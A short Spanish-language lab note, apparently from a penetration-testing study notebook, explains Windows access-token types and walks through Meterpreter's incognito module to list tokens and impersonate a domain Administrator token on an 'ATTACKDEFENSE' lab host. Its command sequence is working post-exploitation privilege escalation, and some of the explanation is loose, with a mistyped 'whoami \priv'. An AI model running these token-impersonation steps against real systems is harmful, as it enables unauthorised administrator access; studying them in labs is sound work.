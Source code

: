 
Es una key o cookie temporal que permite a los usuarios acceder a un sistema o una red sin tener que poner credenciales y es un proceso que se inicia con el sistema. Estos accesos son generados por winlogon.exe.

Hay 2 tipos de seguridad en los Tokens:

- Impersonate-level tokens: son creados como resultado de un login no interactivo en windows y a través de servicios de sistema determinados o domain logons.
- Delegate-level tokens: son creados a través de logins interactivos de windows a través de un login tradicional o un RDP.

Vamos a partir de una sesión de meterpreter. Desde aquí podemos ejecutar los siguientes comandos para acceder a los tokens.

```bash
#Cargamos el módulo incognito dentro de meterpreter
load incognito

#Listamos los tokens del sistema.
list_tokens -u
```

![[Pasted image 20250219094914.png]]

Como se puede observar en el ejemplo hay un "Delegation" token que está disponible.

```bash
#Para poder conectarnos a dicho token ejecutamos este comando
impersonate_token "ATTACKDEFENSE\Administrator"

#Comprobar el usuario
getuid

#Comprobar privs
shell
whoami \priv
```
